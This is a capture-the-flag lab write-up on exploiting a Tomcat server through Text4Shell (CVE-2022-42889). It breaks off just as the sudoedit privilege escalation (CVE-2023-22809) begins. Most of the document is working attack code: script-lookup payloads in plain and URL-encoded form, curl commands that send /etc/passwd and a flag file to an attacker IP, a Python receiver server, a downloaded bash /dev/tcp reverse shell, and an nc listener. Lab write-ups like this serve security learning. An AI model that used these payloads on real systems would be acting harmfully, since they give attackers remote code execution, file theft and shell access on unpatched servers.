

# Lab 1 - Text4Shell & CVE-2023-22809

##

## Goal

Exploit a vulnerable Tomcat server to get a foothold and escalate your privileges with a vulnerable sudoedit!

## Summary

I might not drop pictures, thats because i wrote this after solving the lab. But don't worry, the payloads works.

So we have to exploit 2 vulnerabilities which are;  `Text4Shell CVE-2022-42889` and `CVE-2023–22809, exploiting a vulnerable sudo version` . The lab actually compels each player to learn how each of the Vulnerabilities work in order to find the 2 flags and complete the lab.

## Exploitation Process

### 1 - Enumeration / Recon

After starting the lab, you have to download the `.ovpn` file, then connect. after connecting there is only one tagret (the vulnerable Tomcat Server). I started with nmap scan which shows only 2 ports were open; `8080 [Tomcat web server] and 22 [SSH]` .

I tried things like; viewing source-code to chech for any clues, visiting "http://ip:8080/robots.txt" and "http://ip:8080/sitemap.xml" but found nothing there. I also tried directory bruteforcing using `ffuf` which didn't produce any result. So i went back and googled "Text4Shell" and saw it was a vulnerability with "CVE-2022-42889", there are many proof of concepts in various Github repositories, but they won't work. You have to exploit it manually.

### 2 - Remote Code Execution

So i read up about the vuln. The vulnerability affects the [StringSubstitutor](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/StringSubstitutor.html) interpolator class, which is included in the Commons Text library. A default interpolator allows for string lookups that can lead to Remote Code Execution. This is due to a logic flaw that makes the “script”, “dns” and “url” lookup keys interpolated by default, as opposed to what it should be, according to the documentation of the [StringLookupFactory](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/lookup/StringLookupFactory.html) class. Those keys allow an attacker to execute arbitrary code via lookups. Basically this is caused as a ressult of pasing unsanitised user input to web application entry points.

When i visited the vulnerable target "http://ip:8080" in the source code you see a "/?user=default" which the value of user ie; "default" is displayed on the front page when you visit the app. So basically whatever you pass is being rendered on the Web Front Page.

Vulnerable endpoint : `http://ip:8080/?user=`&#x20;

There are various payloads we could use to do many thing like reading local files assuming you know what files are located where in the victim system.&#x20;

`${script:javascript:java.lang.Runtime.getRuntime().exec('COMMAND-HERE')}`&#x20;

We can use the above payload to execute remote commands on the victim machine. When you run commands like `id, whoami, hostname` you don't get any response back, so we have to find a way to smuggle the content of these commands.


```bash
# 1st step.
# setup a python server in your kali, running on port 80 that supports POST request because we will use curl to smuggle out the contents of local files.
# i used chatgpt to create the server:
```


<details>

<summary>Custom python server for smuggling out local file contents</summary>


```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        # Read the length of the data
        content_length = int(self.headers['Content-Length'])
        # Read the data
        post_data = self.rfile.read(content_length)

        # Save the data to a file
        with open('received_file', 'wb') as file:
            file.write(post_data)

        # Send a response
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'POST request received')

def run(server_class=HTTPServer, handler_class=RequestHandler, port=80):
    server_address = ('KALI-IP-HERE', port)
    httpd = server_class(server_address, handler_class)
    print(f'Starting httpd server on port {port}')
    httpd.serve_forever()

if __name__ == '__main__':
    run()
```


</details>

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># server is ready, run it:
python3 custom_python_server.py

# 10.8.0.2 is the target, 10.8.0.4 is our kali ip.
# then i use this payload to get the /etc/passwd contents out.
${script:javascript:java.lang.Runtime.getRuntime().exec('curl --data-binary @/etc/passwd 10.8.0.4/passwd_file')}

# you have to url encode it:
%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec(%27curl%20--data-binary%20%40%2Fetc%2Fpasswd%2010.8.0.4%2Fpasswd_file%27)%7D

# now visit this url on the browser, while the custom server is running..
<strong>http://10.8.0.2:8080/?user=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27curl%20--data-binary%20@/etc/passwd%2010.8.0.4/passwd%27%29%7d
</strong><strong>
</strong><strong># you will receive a file "received_file", when you cat it "cat received_file" you get contents of the /etc/passwd file.
</strong><strong>
</strong><strong>
</strong><strong># 2nd step.
</strong><strong># we can use this to get the 1st flag located in "/home/local.txt", how did i know this? the admin mentioned this in the Sec-Dojo Discord server.
</strong>${script:javascript:java.lang.Runtime.getRuntime().exec('curl --data-binary @/home/local.txt 10.8.0.4/flag')}

# encoded.
%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec(%27curl%20--data-binary%20%40%2Fhome%2Flocal.txt%2010.8.0.4%flag%27)%7D

# final payload.
http://10.8.0.2:8080/?user=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27curl%20--data-binary%20@/home/local.txt%2010.8.0.4/flag%27%29%7d

# and we get the 1st flag also.
</code></pre>

### 3 - Initial Access (Reverse Shell)

Time to get a Reverse shell so we can get the second flag located in `/root/proof.txt` .


```bash
# step 1
- we create a file (shell.sh) with contents:
bash -i >& /dev/tcp/10.8.0.4/4433 0>&1

# step 2.
# host our local python server, here we can use a simple python server.
python3 -m http.server 80

# step 3
# we are going to use curl to download this "shell.sh" file from our server into the victim server /tmp directory. Using this payload:
${script:javascript:java.lang.Runtime.getRuntime().exec('curl -s 10.8.0.4/shell.sh -o /tmp/shell.sh')}

# encoded.
%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec(%27curl%20-s%2010.8.0.4%2Fshell.sh%20-o%20%2Ftmp%2Fshell.sh%27)%7D

# final payload.
http://10.8.0.2:8080/?user=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27curl%20-s%2010.8.0.4/shell.sh%20-o%20/tmp/shell.sh%27%29%7d

# we can see in the image below it was successfully download.
```


<figure><figcaption></figcaption></figure>


```bash
# step 4
# now we have to execute the download "shell.sh" file. But first we need to be listening on our kali to catch the connection.
nc -nvlp 4433

# now execute the file.
${script:javascript:java.lang.Runtime.getRuntime().exec('bash /tmp/shell.sh')}
# encoded.
%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27bash%20/tmp/shell.sh%27%29%7d

# final payload.
10.8.0.2:8080/?user=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27bash%20/tmp/shell.sh%27%29%7d

# BOOM, we get a reverse shell.
# stabilizing the shell. just use these cmds.
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL + Z # to temporarily background the process.
stty raw -echo; fg
# we have a full fleged shell.
```


## Privilege Escalation

Time to exploit the `CVE-2023–22809` to gain root privilege on the machine. I also saw many exploits on various github repos, which didn't work. I had to exploit it maually.

This vulnerability exploited vulnerable sudo versions by using the "sudoedit" to elevate low level user access into root shell access. It affects versions of sudo from `1.8.0` through `1.9.12p1`. Our target version is&#x20;

\



```bash
```



